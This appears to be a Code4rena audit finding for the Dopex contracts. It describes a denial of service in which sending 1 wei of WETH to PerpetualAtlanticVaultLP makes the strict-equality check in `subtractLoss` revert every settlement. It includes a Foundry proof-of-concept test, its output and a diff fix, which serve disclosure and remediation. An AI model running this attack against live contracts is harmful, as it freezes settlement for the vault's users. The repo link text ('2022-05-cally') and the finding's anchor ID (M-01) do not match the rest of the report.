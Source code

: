 # Dopex

The code under review can be found in [2022-05-cally](https://github.com/code-423n4/2023-08-dopex).

## Findings summary

| ID                                                                                                                                                                                        | Title                                                                                                 | Summary |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- | ------- |
| [H-01](https://github.com/kazantseff/audits/blob/main/contests/2023-08-dopex.md#m-01-substractloss-function-in-perpetualatlanticvaultlp-can-revert-and-cause-the-settlement-proccess-dos) | `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS | High    |

## [H-01] `substractLoss` function in PerpetualAtlanticVaultLP can revert and cause the settlement proccess DoS

### Vulnerability details

The `substractLoss()` function of PerpetualAtlanticVaultLP is called in the settlement proccess of PerpetualAtlanticVault and can revert and cause DoS if the malicious user sends 1 wei of collateral to the PerpetualAtlanticVaultLP.
When calling `settle()` in PerpetualAtlanticVault few actions are made:

1.  The collateral is transfered from PerpetualAtlanticVaultLP:

```solidity
 collateralToken.safeTransferFrom(
     addresses.perpetualAtlanticVaultLP,
     addresses.rdpxV2Core,
     ethAmount
   );
```

2. The `substractLoss()` is invoked with ethAmount:

```solidity
IPerpetualAtlanticVaultLP(addresses.perpetualAtlanticVaultLP).subtractLoss(
    ethAmount
  );
```

The root cause of the issues is that `substractLoss()` uses strict equality in the require statement.

```solidity
require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
```

If prior to the settlement a malicious user transfers 1 wei of WETH to the PerpetualAtlanticVaultLP, this check will always fail since `collateral.balanceOf(address(this)) - ethAmount` will be greater than `_totalCollateral - ethAmount` by 1 wei.

### Impact

The settlement proccess will be DoS'ed.

### Proof Of Concept

```solidity
function testSettleRevert() public {
      // Mint weth to a malicious user
      address maliciousUser = address(1);
      weth.mint(maliciousUser, 1000 * 1e18);

      // make bond
      rdpxV2Core.bond(5 * 1e18, 0, address(this));
      rdpxV2Core.bond(1 * 1e18, 0, address(this));

      vault.addToContractWhitelist(address(rdpxV2Core));
      uint256[] memory _ids = new uint256[](1);

      _ids[0] = 0;
      rdpxPriceOracle.updateRdpxPrice(1e7);
      // the vault balance before attack
      console.log(
          "VaultLp Balance Before attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral before Attack",
          vaultLp.totalCollateral()
      );

      // send 1 wei to PerpetualAtlanticVaultLp
      vm.prank(maliciousUser);
      weth.transfer(address(vaultLp), 1);
      // balance after malicious user transfered 1 wei
      console.log(
          "VaultLp Balance After Attack: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after Attack",
          vaultLp.totalCollateral()
      );
      // the settlement reverts due to the check in PerpetualAtlanticVaultLP
      vm.expectRevert("Not enough collateral was sent out");
      rdpxV2Core.settle(_ids);

      // Skip 8 days to call PerpetualAtlanticVault.updateFundingPaymentPointer() to invoke addProceeds()
      skip(691200);
      vault.updateFundingPaymentPointer();
      // The balance is now updated as well as collateral becuase of the addProceeds() function
      console.log(
          "VaultLp Balance After addProceeds() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after addProceeds() is called",
          vaultLp.totalCollateral()
      );
      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);

      // trying to use deposit to fix the issue
      vaultLp.deposit(1e18, address(msg.sender));
      console.log(
          "VaultLp Balance After deposit() is called: ",
          weth.balanceOf(address(vaultLp))
      );
      console.log(
          "VaultLp _totalCollateral after deposit() is called",
          vaultLp.totalCollateral()
      );

      vm.expectRevert("Not enough collateral was sent out");
      // But the settle is still reverting
      rdpxV2Core.settle(_ids);
  }

```

The output of the state:

```
VaultLp Balance Before attack: 100000000000000000000
VaultLp _totalCollateral Before Attack 100000000000000000000

VaultLp Balance After Attack: 100000000000000000001
VaultLp _totalCollateral After Attack 100000000000000000000

VaultLp Balance After addProceeds() is called: 100367540499850000000
VaultLp _totalCollateral after addProceeds() is called 100367540499849999999

VaultLp Balance After deposit() is called: 101367540499850000000
VaultLp _totalCollateral after deposit() is called 101367540499849999999
```

As you can see `_totalCollateral` is always 1 wei lesser than contract balance.

### Recommended Mitigation Steps

Either remove the require check or make it less strict:

```diff
- require(collateral.balanceOf(address(this)) == _totalCollateral - loss,"Not enough collateral was sent out");
+ require(collateral.balanceOf(address(this)) >= _totalCollateral - loss,"Not enough collateral was sent out");
```
